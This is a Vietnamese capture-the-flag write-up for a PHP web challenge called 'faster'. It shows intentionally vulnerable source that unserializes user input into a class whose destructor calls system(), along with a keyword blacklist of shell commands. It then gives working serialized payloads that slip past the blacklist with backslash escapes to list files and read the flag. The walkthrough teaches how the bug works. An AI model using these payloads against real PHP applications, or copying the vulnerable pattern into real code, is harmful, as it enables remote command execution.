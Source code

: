 # faster
## Description
bạn có thể nhanh hơn throw Exception() không?  
`http://45.122.249.68:10019`

## Solution
Ta có source code sau:  

```php
<?php
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
if ($payload[0]==='a' || $payload[0]==='C')
{
    die('awwwww! this\'s the wrong way!');
}
else if (preg_match('/cat|ls|nl|head|less|more|tail|mv|base|grep|dir|\*|strings|sort|txt|find|print|tac|awk/is',$payload))
    die('awwwww! this\'s the wrong way!');
unserialize($payload);
throw new Exception("oh nooooooo!!!");
?>
```

Ở đây, ta thấy rằng, chương trình sẽ `die` nếu kí tự đầu của payload là `a` hoặc `C`. Đồng thời, nếu trong payload có chứa các từ trong `preg_match` (case-insensitive) thì chương trình cũng sẽ `die`.  

Thứ hai, ta thấy rằng có 1 class `exploit_me` và object được tạo từ class này sẽ thực thi `system($this->cmd)` khi được deserialize. Vậy ta sẽ tạo 1 chuỗi deserialize trong `php` trên class `exploit_me` với `cmd` là một câu lệnh linux để đọc flag.  

Để bypass được blacklist trong `preg_match`, ta có thể tận dụng escape character trong linux. Nghĩa là khi ta dùng `\'` thì linux sẽ xem `'` này là một ký tự dấu nháy đơn thông thường chứ không phải là dấu hiệu bắt đầu hoặc kết thúc chuỗi. Tương tự khi ta dùng `\ ` thì linux sẽ xem ` ` là 1 dấu cách thông thường của một chuỗi chứ không phải là ký tự ngăn cách các tham số của command.  

Với các thông tin trên, ta có thể dùng `l\s` thay vì `ls` để list các file và directory ở đường dẫn hiện tại.  

![image](https://user-images.githubusercontent.com/44528004/147436215-10f63555-0746-4fe2-a970-c80fbcbe252c.png)  

Từ đây, ta tạo serialized string sau:  
```
O:10:"exploit_me":1:{s:3:"cmd";s:3:"l\s";}
```  

Truyền payload:  

![image](https://user-images.githubusercontent.com/44528004/147436316-cf644450-cd90-466a-915f-bce9ae30cc6d.png)

Có thể thấy là cách khai thác này thành công. Từ đây, ta có thể thực thi các câu lệnh như `cat`, `ls` thông thường sử dụng escape character để bypass blacklist và tìm file flag.

Payload exploit thành công:
```
O:10:"exploit_me":1:{s:3:"cmd";s:34:"ca\t ../../../a8749209e3d652e_flag";}
```

Flag: `Wanna.One{Fast_detruct_is_tooooooooo_easy_for_you_!!!}`
